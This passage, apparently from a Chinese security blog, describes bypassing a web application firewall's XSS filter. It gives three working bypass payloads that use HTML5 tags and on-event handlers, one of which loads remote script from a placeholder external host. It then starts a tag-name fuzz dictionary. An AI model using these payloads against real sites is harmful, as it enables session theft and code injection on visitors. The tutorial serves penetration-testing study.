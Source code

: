 - - -

说实话，我在测这个 waf 时，过程很顺利，可能是我测过几个 waf 的原因，感觉对 xss 检测不是很严，可能是我测试的环境`太乐观了`，毕竟实战各种`鸡肋环境`，但是我发现对于 HTML5 新出的几个标签属性还是没过滤的，还有少数 waf，on 事件没过滤全，可能有些 on 事件属于比较鸡肋的原因。

Bypass payload:

```plain
<details open ontoggle=[1].find(alert)>
<select autofocus onfocus=[2].find(alert)>
<input autofocus onfocus=s=createElement("scriPt");body.appendChild(s);s.src="//xss.xx/1te">
```

## fuzz 字典

- - -

为什么我很快能得到 Bypass payload 呢，因为我自己有收集和构造属于自己的字典，下面我大概讲解下自己的思路。

[![](assets/1698897346-e69549047488b3872d142fc2b9af2efd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191123112944-7de1bf82-0da1-1.png)

(一个 xss 的基本结构)

#### \[TAG\]标签

- - -

标签方便也很简单，就多关注 HTML 新出了那些标签。

```plain
a
abbr
acronym
address
applet
area
article
aside
audio
b
base
basefont
bdi
bdo
big
blockquote
body
br
button
canvas
caption
center
cite
code
col
colgroup
command
datalist
dd
del
details
dfn
dialog
```
